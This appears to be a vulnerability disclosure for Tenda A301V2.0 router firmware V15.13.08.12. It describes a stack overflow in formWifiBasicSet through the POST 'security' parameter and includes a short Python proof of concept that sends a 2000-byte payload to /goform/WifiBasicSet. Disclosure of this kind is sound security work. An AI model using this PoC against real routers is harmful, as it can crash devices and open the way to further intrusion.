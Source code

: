 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3328.html

## Affected version

A301V2.0 Firmware  V15.13.08.12

## Vulnerability details

In the Tenda A301V2.0 Firmware  V15.13.08.12 has a stack overflow vulnerability located in the `formWifiBasicSet` function. This function accepts the `security` parameter from a POST request. When `is_ssid0_wds_mode(0)` returns False, which means wds mode is disabled, the `security` parameter is directly copied to `param[256]`, causing a buffer overflow.

![image1](image/1.png)

![2](image/2.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.143"
url = "http://" + ip + "/goform/WifiBasicSet"
payload = b"a"*2000

data = {
    "security": payload,
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)